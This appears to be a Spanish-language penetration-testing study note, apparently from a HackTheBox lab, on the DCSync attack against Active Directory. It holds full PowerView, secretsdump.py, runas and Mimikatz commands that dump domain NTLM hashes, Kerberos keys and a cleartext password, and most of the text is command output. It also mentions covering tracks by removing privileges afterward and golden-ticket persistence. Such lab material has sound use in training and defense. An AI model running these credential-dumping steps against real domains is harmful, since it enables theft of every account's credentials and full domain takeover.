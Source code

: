 ---------
- Tags: #dcsync #secretdump #PowerView #mimikatz 
---------
## ¿Qué es DCSync y cómo funciona?

DCSync es una técnica para robar la base de datos de contraseñas de Active Directory mediante el uso del software integrado `Directory Replication Service Remote Protocol`, que utilizan los controladores de dominio para replicar los datos del dominio. Esto permite a un atacante imitar un controlador de dominio para recuperar hashes de contraseña NTLM del usuario.

El quid del ataque es solicitar un controlador de dominio para replicar las contraseñas a través del `DS-Replication-Get-Changes-All`derecho extendido. Este es un derecho de control de acceso extendido dentro de AD, que permite la replicación de datos secretos.

Para realizar este ataque, debe tener control sobre una cuenta que tenga los derechos para realizar la replicación del dominio (un usuario con los permisos Replicar cambios de directorio y Replicar todos los cambios de directorio establecidos). Los administradores de dominio/empresa y los administradores de dominio predeterminados tienen este derecho de forma predeterminada.
#### Uso de Get-DomainUser para ver la membresía del grupo de adunn

```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

PowerView se puede utilizar para confirmar que este usuario estándar efectivamente tiene los permisos necesarios asignados a su cuenta. Primero obtenemos el SID del usuario en el comando anterior y luego verificamos todas las ACL configuradas en el objeto de dominio ( `"DC=inlanefreight,DC=local"`) usando [Get-ObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/) para obtener las ACL asociadas con el objeto. Aquí buscamos específicamente derechos de replicación y verificamos si nuestro usuario `adunn`(indicado en el siguiente comando como `$sid`) posee estos derechos. El comando confirma que el usuario efectivamente tiene los derechos.
  
#### Uso de Get-ObjectAcl para verificar los derechos de replicación de adunn

```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

Si tuviéramos ciertos derechos sobre el usuario (como [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl) ), también podríamos agregar este privilegio a un usuario bajo nuestro control, ejecutar el ataque DCSync y luego eliminar los privilegios para intentar cubrir nuestras huellas. La replicación de DCSync se puede realizar utilizando herramientas como Mimikatz, Invoke-DCSync y secretsdump.py de Impacket. Veamos algunos ejemplos rápidos.

Al ejecutar la herramienta como se muestra a continuación, se escribirán todos los hashes en archivos con el prefijo `inlanefreight_hashes`. La `-just-dc`bandera le indica a la herramienta que extraiga hashes NTLM y claves Kerberos del archivo NTDS.
#### Extracción de hashes NTLM y claves Kerberos mediante secretsdump.py

```shell-session
lilscott6x9@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```

Podemos usar la `-just-dc-ntlm`bandera si solo queremos hashes NTLM o especificar `-just-dc-user <USERNAME>`que solo se extraigan datos para un usuario específico. Otras opciones útiles incluyen `-pwd-last-set`ver cuándo se cambió por última vez la contraseña de cada cuenta y `-history`si queremos volcar el historial de contraseñas, lo que puede ser útil para descifrar contraseñas sin conexión o como datos complementarios sobre las métricas de seguridad de la contraseña del dominio para nuestro cliente. Es `-user-status`otra bandera útil para verificar y ver si un usuario está deshabilitado. Podemos volcar los datos NTDS con este indicador y luego filtrar a los usuarios deshabilitados cuando proporcionamos a nuestro cliente estadísticas de descifrado de contraseñas para garantizar que datos como:

- Número y porcentaje de contraseñas descifradas
- 10 contraseñas principales
- Métricas de longitud de contraseña
- Reutilización de contraseña

reflejan sólo cuentas de usuarios activos en el dominio.

Si verificamos los archivos creados usando la `-just-dc`bandera, veremos que hay tres: uno que contiene los hashes NTLM, otro que contiene las claves Kerberos y otro que contendría contraseñas de texto sin cifrar del NTDS para cualquier cuenta configurada con el [cifrado reversible](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) habilitado.

Aunque es poco común, vemos cuentas con estas configuraciones de vez en cuando. Por lo general, estaría configurado para brindar soporte a aplicaciones que usan ciertos protocolos que requieren el uso de una contraseña de usuario con fines de autenticación.

También podemos realizar el ataque con Mimikatz. Usando Mimikatz, debemos dirigirnos a un usuario específico. Aquí nos centraremos en la cuenta de administrador integrada. También podríamos apuntar a la `krbtgt`cuenta y usar esto para crear una `Golden Ticket`persistencia, pero eso está fuera del alcance de este módulo.

También es importante tener en cuenta que Mimikatz debe ejecutarse en el contexto del usuario que tiene privilegios DCSync. Podemos utilizar `runas.exe`para lograr esto:

#### Usando runas.exe

  Usando runas.exe

```cmd-session
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

From the newly spawned powershell session, we can perform the attack:

```powershell-session
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```